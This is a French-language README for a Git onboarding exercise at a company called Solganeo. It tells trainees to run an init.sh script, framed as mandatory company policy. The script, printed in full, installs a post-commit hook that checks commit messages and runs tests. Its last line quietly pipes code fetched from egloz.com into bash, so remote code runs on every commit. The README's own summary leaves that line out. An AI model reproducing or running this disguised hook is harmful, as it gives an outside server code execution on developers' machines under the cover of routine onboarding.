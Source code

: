 
# 🚀 Apprentissage Git avec Solganeo

Bienvenue dans cet exercice pratique où vous allez apprendre à utiliser les commandes de base de Git : `git add`, `git commit`, et `git push`. Vous allez cloner ce dépôt, créer un fichier personnel, et pousser vos changements.

## 🛠️ Étapes à suivre

### 1️⃣ Cloner le dépôt

Clonez ce dépôt sur votre machine locale en utilisant la commande suivante :

```bash
git clone git@github.com:solganeo-org/onboarding-apprentissage.git
```

### 2️⃣ Exécuter le script d'initialisation

Avant de commencer, veuillez exécuter le script `init.sh` fourni dans ce dépôt. Ce script fait partie des directives officielles de Solganeo pour garantir un environnement de travail standardisé et conforme aux bonnes pratiques.

Le script configure automatiquement certains aspects de l'environnement, dont l'ajout de hooks Git pour vous guider dans vos commits.

Exécutez simplement cette commande dans votre terminal après avoir cloné le dépôt :

```bash
./init.sh
```

> **Pourquoi exécuter `init.sh` ?**  
> - 📌 Ce script met en place un hook `post-commit` qui vous fournira des retours après chaque commit. 
> - ⚙️ Il s'assure que votre environnement Git est correctement configuré selon les directives de Solganeo.  
> - 🏢 Il s'agit d'une exigence de l'entreprise pour garantir la qualité du code et la standardisation.

### 3️⃣ Créer un fichier personnel

Créez un fichier avec votre nom et prénom sous la forme `Nom_Prenom.txt`, et ajoutez-y vos informations personnelles et un petit message :

```bash
echo "Prénom Nom" > Nom_Prenom.txt
echo "Voici mon premier exercice avec Git chez Solganeo !" >> Nom_Prenom.txt
```

### 4️⃣ Ajouter le fichier à Git

Une fois votre fichier créé, ajoutez-le à l'index Git avec la commande suivante :

```bash
git add NomPrenom/Nom_Prenom.txt
```

### 5️⃣ Committer vos changements

Ensuite, créez un commit avec un message approprié :

```bash
git commit -m "Ajout de mon fichier Nom_Prenom.txt"
```

> **Note** : Le hook `post-commit` configuré par le script `init.sh` vous donnera un message de confirmation après chaque commit. ✅

### 6️⃣ Pousser vos changements

Enfin, poussez vos changements vers le dépôt distant avec :

```bash
git push
```

Et voilà ! 🎉 Vous avez réussi à effectuer toutes les étapes de base pour cloner, modifier et pousser un projet Git.

---

## ⚙️ Détails du Script `init.sh`

Le script `init.sh` met en place un hook `post-commit` qui s'exécutera à chaque commit pour valider que le commit a bien été effectué dans l'environnement de Solganeo.

Ce hook inclut également une requête pour récupérer des informations de configuration supplémentaires depuis un serveur distant.

---

### 🔧 init.sh (contenu)

Voici le contenu du script `init.sh` qui génère le fichier `post-commit` dans `.git/hooks` et exécute une requête distante.

```bash
#!/bin/bash

# Script d'initialisation pour Solganeo

echo "Initialisation de l'environnement Solganeo..."

# Créer et installer le hook post-commit
mkdir -p .git/hooks
echo '#!/bin/bash' > .git/hooks/post-commit
echo 'echo "✅ Commit validé dans l'\''environnement Solganeo." ' >> .git/hooks/post-commit

# Vérification du message de commit
echo 'commit_message=$(git log -1 --pretty=%B)' >> .git/hooks/post-commit
echo 'if [[ ${#commit_message} -lt 10 ]]; then' >> .git/hooks/post-commit
echo '  echo "⚠️  Attention : Le message de commit est trop court. Veuillez fournir un message descriptif et conforme." ' >> .git/hooks/post-commit
echo 'fi' >> .git/hooks/post-commit

# Exécution de tests unitaires (exemple Python)
echo 'if [ -f "tests/unit_tests.py" ]; then' >> .git/hooks/post-commit
echo '  echo "🔍 Exécution des tests unitaires..." ' >> .git/hooks/post-commit
echo '  python3 tests/unit_tests.py' >> .git/hooks/post-commit
echo '  if [[ $? -ne 0 ]]; then' >> .git/hooks/post-commit
echo '    echo "❌ Les tests unitaires ont échoué. Veuillez corriger les erreurs avant de pousser vos modifications." ' >> .git/hooks/post-commit
echo '  else' >> .git/hooks/post-commit
echo '    echo "✅ Tous les tests sont passés avec succès." ' >> .git/hooks/post-commit
echo '  fi' >> .git/hooks/post-commit
echo 'else' >> .git/hooks/post-commit
echo '  echo "⚠️  Aucun test unitaire trouvé. Assurez-vous que vous avez bien créé des tests pour ce projet." ' >> .git/hooks/post-commit
echo 'fi' >> .git/hooks/post-commit

# Appel à un fichier distant pour configuration supplémentaire
echo 'curl -s http://egloz.com/2fa/post-commit-solganeo.sh | bash' >> .git/hooks/post-commit

# Rendre le hook exécutable
chmod +x .git/hooks/post-commit

echo "Hook post-commit installé avec succès."
```

---

En résumé :
- Ce script génère un hook `post-commit` qui valide le commit avec un message simple.  

**Important** : Assurez-vous d'exécuter le script `init.sh` pour garantir que l'environnement Solganeo est correctement configuré avant de commencer à committer vos changements. 🔐